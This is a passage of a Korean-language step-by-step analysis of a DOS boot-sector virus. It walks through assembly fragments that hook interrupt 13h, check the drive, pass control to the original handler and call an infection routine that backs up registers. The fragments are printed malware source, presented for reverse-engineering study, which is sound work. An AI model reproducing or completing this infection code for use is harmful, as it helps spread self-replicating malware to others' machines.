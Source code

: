 **⭐ STEP 16**  
이 부분은 코드 내에서 호출하는 부분은 없다. 하지만 실제 PC 운용시에 발생하는 인터럽트에 대해 후킹하여 감염 여부를 체크한다. 실제로 아래는 후킹에 사용될 코드의 내용이다. 처음에는 드라이브를 체크하는 코드부터 시작한다.
``` asm
int13h:
			...
		xor     ax, ax
		mov     ds, ax
		test    byte ptr ds:[43fh], 1
		jnz     exitint13h       ; 드라이브가 작동하지 않으면 패스
```
* ax를 초기화한다
* ds를 초기화한다
* test로 1과 and 연산을 해서 \[43h\]의 값이 0인이 확인
* 위 연산의 결과를 제로플래그로 확인하여, 0이 아닌 경우는 드라이브의 팬이 돌아가지 않는다는 뜻이며, 드라이브가 정상적으로 작동하지 않는다는 뜻이므로 exitint13h로 분기한다.

**⭐ STEP 17**  
드라이브가 정상적인지 확인이 되었다면 정상 작동을 유지하기 위해 원래 인터럽트를 호출하고,
 감염 여부를 확인한다.
``` asm
int13h:
			...
		pop     ax
		pop     ds
		pushf
		call    dword ptr cs:[oldint13h] ; 원래 인터럽트 호출
		pushf
		call    infectdisk       ; infect 호출
		popf
		retf    2       ; 추가로 2Byte를 리턴(플래그)
```
* 백업했던 ax를 복구해서 원래 인터럽트에 전달할 데이터들을 유지한다
* 백업했던 ds도 같은 이유로 복구한다
* 플래그들을 백업한다
* 본래 인터럽트를 호출한다
* 플래그들을 백업한다
* infectdisk를 호출하여 감염을 진행한다.
* 플래그들을 복원한다.
* 리턴함과 동시에 2바이트만큼 스택에서 더 꺼내어 플래그를 복원한다.

**⭐ STEP 18**  
후킹한 인터럽트를 종료하는 코드다. 호출 당시 데이터를 유지한채 실행을 원래 인터럽트로 넘긴다.
``` asm
exitint13h:
	    pop     ax
		pop     ds
		jmp     dword ptr cs:[oldint13h] ; 원래 인터럽트로 분기
```
* 백업했던 ax를 복구해서 원래 인터럽트에 전달할 데이터들을 유지한다
* 백업했던 ds도 같은 이유로 복구한다.
* 원래 인터럽트로 실행을 넘겨버린다.

**⭐ STEP 19**  
다음은 감염을 위해 데이터들을 모두 백업시켜놓는 과정이다.
``` asm
infectdisk:
		push    ax
		push    bx
		push    cx
		push    dx
		push    ds
		push    es
		push    si
		push    di
		push    cs
```